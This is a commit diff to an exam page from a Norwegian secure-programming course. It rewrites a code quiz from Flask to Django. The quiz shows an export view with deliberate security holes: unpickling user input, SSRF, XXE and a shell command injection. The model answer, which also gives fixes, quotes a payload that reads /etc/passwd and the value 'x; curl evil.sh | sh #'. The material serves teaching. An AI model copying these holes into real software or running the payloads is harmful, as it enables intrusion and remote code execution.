

Before and after one commit to NicolaiBaklund/ProgSik, a website: page eksamen/genererte/eksamen_04.html in a window 1280 px wide. Shown: the part 1651-2605 px from the top of the page, without its empty margins (198-1081 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update exam content to reflect Django usage in code quiz and enhance description for clarity

```diff
--- a/eksamen/genererte/eksamen_04.html
+++ b/eksamen/genererte/eksamen_04.html
@@ -67,35 +67,32 @@
       <header class="exam-q__head">
         <span class="exam-q__num">Spørsmål 3</span>
         <span class="exam-q__points">7 poeng</span>
-        <span class="exam-q__topic">Kap. 2 — Kode-quiz (Python / Flask)</span>
+        <span class="exam-q__topic">Kap. 2 — Kode-quiz (Django)</span>
       </header>
       <div class="exam-q__body">
-        <p class="q-text">Følgende Flask-endepunkt mottar en eksport-konfigurasjon, henter en mal fra en URL, og rapporterer resultatet til en webhook. Identifiser <strong>tre sårbarheter</strong> med linjenummer, forklar utnyttelse, og foreslå en konkret fiks for hver. (2 p per sårbarhet) En fjerde rimelig sårbarhet gir bonus opptil 1 p.</p>
-<pre><code> 1  from flask import Flask, request, jsonify
- 2  import pickle, base64, requests, subprocess
- 3  from lxml import etree
- 4
- 5  app = Flask(__name__)
+        <p class="q-text">Følgende Django <code>views.py</code> håndterer en eksport-funksjon: den mottar en pickled konfigurasjon, henter en mal fra en URL, parser den som XML, og rapporterer resultatet til en webhook. Identifiser <strong>tre sårbarheter</strong> med linjenummer, forklar utnyttelse, og foreslå en konkret fiks for hver. (2 p per sårbarhet) En fjerde rimelig sårbarhet gir bonus opptil 1 p.</p>
+<pre><code> 1  import pickle, base64, requests, subprocess
+ 2  from lxml import etree
+ 3  from django.http import JsonResponse
+ 4  from django.views.decorators.csrf import csrf_exempt
+ 5  from django.views.decorators.http import require_POST
  6
- 7  @app.route("/api/export", methods=["POST"])
- 8  def export():
- 9      data = request.get_json()
-10      cfg = pickle.loads(base64.b64decode(data["cfg"]))
+ 7  @csrf_exempt
+ 8  @require_POST
+ 9  def export(request):
+10      cfg = pickle.loads(base64.b64decode(request.POST["cfg"]))
 11
-12      template_url = data["template_url"]
+12      template_url = request.POST["template_url"]
 13      r = requests.get(template_url, timeout=5)
 14      tree = etree.fromstring(r.content)
 15
-16      report_name = data["name"]
+16      report_name = request.POST["name"]
 17      cmd = "wkhtmltopdf - /var/reports/{}.pdf".format(report_name)
 18      subprocess.run(cmd, shell=True, input=etree.tostring(tree))
 19
 20      webhook = cfg.get("webhook")
 21      requests.post(webhook, json={"status": "ok", "report": report_name})
-22      return jsonify({"ok": True})
-23
-24  if __name__ == "__main__":
-25      app.run(host="0.0.0.0", port=8000, debug=True)
+22      return JsonResponse({"ok": True})
 </code></pre>
         <details class="fasit-details">
           <summary>Vis modellsvar</summary>
@@ -105,7 +102,7 @@
             <p><strong>Sårbarhet 3 — XXE (linje 14).</strong> <code>lxml.etree.fromstring</code> default-parser tillater eksterne entiteter og DTD-er. En mal som inneholder <code>&lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;</code> får serveren til å lese filer eller initiere out-of-band-requester. <em>Fiks:</em> bruk eksplisitt <code>parser = etree.XMLParser(resolve_entities=False, no_network=True, dtd_validation=False, load_dtd=False)</code> og <code>etree.fromstring(r.content, parser)</code>. Defusedxml er en drop-in trygg variant.</p>
             <p><strong>Sårbarhet 4 (bonus) — Command injection (linje 16–18).</strong> <code>report_name</code> interpoleres inn i shell-streng. <code>name = "x; curl evil.sh | sh #"</code> kjører vilkårlige kommandoer. <em>Fiks:</em> <code>subprocess.run(["wkhtmltopdf", "-", out_path], shell=False, input=...)</code>; valider/whitelist navn (regex <code>^[a-zA-Z0-9_-]+$</code>).</p>
             <p><strong>Bonus 2 — SSRF til webhook (linje 20–21).</strong> <code>webhook</code> kommer fra angriper-kontrollert pickle og brukes som ny HTTP-request: en andre SSRF-vei. Samme fiks som over (whitelist).</p>
-            <p><strong>Bonus 3 — <code>debug=True</code> på linje 25</strong> aktiverer Werkzeug debug-konsoll med RCE-pin; må aldri stå i produksjon.</p>
+            <p><strong>Bonus 3 — <code>@csrf_exempt</code> (linje 7)</strong> deaktiverer Djangos innebygde CSRF-vern på en state-endrende POST-funksjon. En autentisert bruker kan lures til å sende en cross-origin-request som trigger eksporten med angripers parametre. <em>Fiks:</em> fjern dekoratoren og bruk CSRF-token i klienten; for API-endepunkter bruk DRF-baserte autentiseringsmekanismer (Bearer-token / session med SameSite).</p>
             <p class="ref">Pensum: <a href="../../kap2/injection.html">Kap. 2 — Injection</a> · <a href="../../kap2/konfig-krypto-ssrf.html">SSRF / Deserialisering</a></p>
           </div>
         </details>
```
Also changed, not shown: eksamen/index.html (+1 -1 lines).
